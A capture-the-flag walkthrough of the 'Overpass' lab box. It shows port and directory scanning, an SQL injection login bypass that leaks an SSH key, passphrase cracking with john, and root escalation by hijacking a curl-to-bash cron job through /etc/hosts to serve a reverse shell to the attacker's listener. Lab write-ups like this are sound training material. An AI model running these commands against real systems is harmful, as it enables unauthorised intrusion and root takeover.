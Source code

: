 # Overpass

This room is pretty barebones in the questions, so we do everything from scratch!
A good opportunity to test your skills ...

### What happens when a group of broke Computer Science students try to make a password manager? Obviously a perfect commercial success!
yay



## 1. Recon
`❯ nmap -sC -sV -A BOX_IP`

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-02 22:56 EST
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.58% done; ETC: 22:56 (0:00:23 remaining)
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 66.33% done; ETC: 22:57 (0:00:20 remaining)
Nmap scan report for BOX_IP
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.19 seconds
```

`❯ gobuster dir -u BOX_IP -w "/usr/share/wordlists/rockyou.txt" -x "html,php,txt"`
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://BOX_IP
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2021/02/02 23:06:26 Starting gobuster
===============================================================
/index.html (Status: 301)
/img (Status: 301)
/downloads (Status: 301)
/aboutus (Status: 301)
/admin (Status: 301)
/admin.html (Status: 200)
/css (Status: 301)
Progress: 1322 / 220561 (0.60%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/02/02 23:12:32 Finished
===============================================================
```

PS: you can run this with `--script=vuln`, and that works too. But, it took this amount of time:
`Nmap done: 1 IP address (1 host up) scanned in 1216.13 seconds`. So maybe not a good idea. 


## 2. Foothold

hmmm. admin look interesting. Using `/admin.html` gives us a login page.

lets try an sql injection: `69 OR 1=1`

...

works!

okay so name of the person is james and ... we have the ssh private key printed out lmao. lets try:

`❯ ssh -i key james@BOX_IP`

key: the rsa key

james: the username

BOX_IP: IP address of the box.

password protected ;-;

ok so lets take that key and convert it into a better format.

`python ssh2john.py id_rsa > id_rsa.hash`

time to bruteforce!

```
❯ john hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
*******          (key)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2021-02-02 23:49) 0.1385g/s 1986Kp/s 1986Kc/s 1986KC/sa6_123..*7¡Vamos!
Session completed
```
( key hidden :) )


### Hack the machine and get the flag in user.txt 

```
❯ ssh -i key james@BOX_IP
Enter passphrase for key 'key': 
```
I'm in!

`james@overpass-prod:~$ cat user.txt`

:stonks:

## 3. PrivEsc
```
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

ok so lets copy linpeas to find any issues:

`❯ scp -i path/to/key /path/to/linpeas.sh james@BOX_IP:/destination/path`


now, 
```
james@overpass-prod:~$ chmod +x linpeas.sh 
james@overpass-prod:~$ ./linpeas.sh 
```

hmm. so we have `/etc/hosts` available to edit
```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.1.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

and since there's some talk about automated build scipts, we should go look at cron.
```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

ah yeas. look at the last one. it runs every minute, as root. only if we could change the hosting location of `overpass.thm` ... oh wait


so lets edit `/etc/hosts`'s `overpass.thm` to our own ip, and setup a python server using:
```
❯ sudo python3 -m http.server 80
[sudo] password for tanishq: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

note the port 80 since that curl is going to look in the default port. Now, wherever you started this server, from this location onwards, we need to have this exact structure `/downloads/src/buildscript.sh`, so

`❯ mkdir downloads`
`❯ cd downloads`
`❯ mkdir src`
`❯ cd src`
`❯ echo "bash -i >& /dev/tcp/MY_IP/4242 0>&1" > buildscript.sh`

this lets us pretend to be a server, serving that `buildscript.sh` file :)

we are telling the sever to send us a tcp connection to our own ip on the port `4242`.

Meanwhile, setup netcat using:
`❯ nc -nlvp 4242`

-l: listen mode, for inbound connects
-n: numeric-only IP addresses, no DNS
-v: verbose [use twice to be more verbose]
-p port: local port number

and we are in!

### Escalate your privileges and get the flag in root.txt
PWNED 1337
